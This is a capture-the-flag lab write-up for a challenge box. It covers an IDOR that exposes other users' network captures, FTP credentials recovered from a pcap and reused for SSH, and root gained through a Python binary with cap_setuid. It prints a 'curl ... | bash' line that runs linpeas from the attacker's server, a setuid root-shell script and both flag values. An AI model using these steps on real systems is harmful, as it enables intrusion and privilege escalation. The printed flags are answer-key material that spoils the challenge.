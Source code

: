 # Tasks

[**How many TCP ports are open?**](#task-1)

[**After running a "Security Snapshot", the browser is redirected to a path of the format ```/something/id```, where ```id``` represents the id number of the scan. What is the ```something```?**](#task-2)

[**Are you able to get to other users' scans?**](#task-3)

[**What is the ID of the PCAP file that contains sensative data?**](#task-4)

[**Which application layer protocol in the pcap file can the sensetive data be found in?**](#task-5)

[**We've managed to collect nathan's FTP password. On what other service does this password work?**](#task-6)

[**User Flag**](#user-flag)

[**What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?**](#task-8)

[**Root Flag**](#root-flag)

# Tools Used

- nmap
- gtfobins (kind of)

# Skills used

- Exploiting _IDOR_
- Little bit of forensics (checking _pcap_ traffic for credentials, pretty much it lmao)
- Searching for files with _SUID_ bit set and exploiting that

# Solutions

## Task 1

**Command:**

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/98695f42-0e02-4f68-9d4a-3e47b0d589ca)

**Answer: 3**

## Task 2

Just go to the website:

![image](https://github.com/user-attachments/assets/b3d0014a-1777-499c-ac22-5a133283f4bf)

That's not the landing page but the page that we need to go to find the answer, looks like an _IDOR_ might be possible.

**Answer: data**

## Task 3

![image](https://github.com/user-attachments/assets/e4430975-b9ed-43a1-895b-255b11708962)

Yes, _IDOR_ was very much possible.

**Answer: yes**

## Task 4

_Yes_

![image](https://github.com/user-attachments/assets/c8e73b82-31a1-4e5a-8cce-d9dc37170969)

**Answer: 0**

## Task 5

Check the _pcap_ file, and we'll find this:

![image](https://github.com/user-attachments/assets/d2b071e7-9fab-4e69-b345-6283af83114f)

**Answer: FTP**

Also, we're gonna be using that info a bunch so yeah.

## Task 6

So, remember how _ssh_ was open based on the scan? Yeah, that's what I thought lmao.

**Answer: ssh**

## User Flag

Log in to _ssh_, then you'll find this:

![image](https://github.com/user-attachments/assets/a1ee20f5-a706-4f7c-a223-b37d617af766)

**Answer: c96619759ff232fdc96286ad0d0ce8aa**

## Task 8

Ok so at first, I thought using this was enough to find the vulnerable binary:

```
find / -user root -perm -4000 2>/dev/null
```

This basically looks for all files with escalated privileges. Usually I use that to find vulnerable binaries.

![image](https://github.com/user-attachments/assets/e1a919cd-8bd6-493d-a7d4-1e6b35502a96)

This is what I found, but none of them were useful.

I tried to narrow it down to just _/usr/bin_ to really make sure, but even then, none of the binaries with _SUID_ set are actually useful.

So, I looked at a writeup to see how to find the vulnerable binary, apparently I gotta use _linpeas_ (or another enumeration tool/method).

Basically, the vulnerable binary can set _SUID_ via _CAP_SUID_.

So, here's what I found:

![image](https://github.com/user-attachments/assets/dede01f8-4f88-4fbd-9f8f-575b17fae8a2)

I like how it's even highlighted lol.

Anyways, here's how that happened:

Host _python web server_ in the directory with _linpeas.sh_ in it:

![image](https://github.com/user-attachments/assets/142eb20e-110e-40ba-9940-13aa3c329760)

Curl that in the _ssh_ session to run it, use this to run it directly after curling:

```
curl [Python Server Address/linpeas.sh] | bash
```

![image](https://github.com/user-attachments/assets/c5e2ea11-eaf6-4d14-a028-199c96e53d71)

And let it rip

**Answer: /usr/bin/python3.8**

## Root Flag

Use this script (since _python_ is vulnerable):

```
import os
os.setuid(0)
os.system("/bin/bash")
```

You already know the first and third lines (considering that's pretty common to do), but _os.setuid_ should be self explanatory lmao.

Also, we got that from [**GTFObins**](https://gtfobins.github.io/gtfobins/python/#suid), this specifically:

![image](https://github.com/user-attachments/assets/803c48be-a88f-4699-b126-834c7c4125bc)

Should look like this:

![image](https://github.com/user-attachments/assets/c6fb2453-4c61-4ff8-87c6-48f25ee37bdf)

Anyways, here's the flag:

![image](https://github.com/user-attachments/assets/5c1ad47f-6b86-4754-9d2d-0f5cc8cda986)

**Answer: 8d947f4a0f87dde1f469156dfa2fc22e**

